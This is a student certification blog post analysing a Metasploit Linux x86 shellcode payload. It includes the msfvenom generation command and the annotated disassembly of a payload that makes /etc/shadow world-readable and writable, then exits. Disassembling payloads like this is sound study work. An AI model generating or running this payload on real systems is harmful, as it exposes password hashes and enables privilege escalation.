 # 5. Shellcode Analysis

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to analyze three payloads from the Metasploit Framework for Linux on the x86 architecture.

## Analysis of linux/x86/chmod

The linux/x86/chmod payload will change the file permissions on a specified file on the local system. With the default arguments, it will give everyone read and write permissions (0666) on the ``/etc/shadow`` file:

```sh
msfvenom -p linux/x86/chmod | ndisasm -b 32 -

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

The first part of the shellcode sets up the call to the [chmod](https://man7.org/linux/man-pages/man2/chmod.2.html) system call:

```nasm
; int chmod(const char *pathname, mode_t mode): syscall 0xf
;   chmod("/etc/shadow", 0666)
00000000  99                cdq              ; edx = 0x00000000 if eax >= 0, edx = 0xFFFFFFFF if eax < 0
00000001  6A0F              push byte +0xf
00000003  58                pop eax          ; eax = 15
00000004  52                push edx         ; push 0x00000000/0xFFFFFFFF (?)
00000005  E80C000000        call 0x16        ; push address of "/etc/shadow"
0000000A  "/etc/shadow"
00000016  5B                pop ebx          ; ebx = "/etc/shadow"
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx          ; ecx = 0666
0000001D  CD80              int 0x80         ; perform syscall
```

The second part uses the [exit](https://man7.org/linux/man-pages/man2/exit.2.html) system call to terminate the process:

```nasm
; void _exit(int status)
;   _exit(whatever)
0000001F  6A01              push byte +0x1
00000021  58                pop eax          ; eax = 1
00000022  CD80              int 0x80         ; perform syscall
```
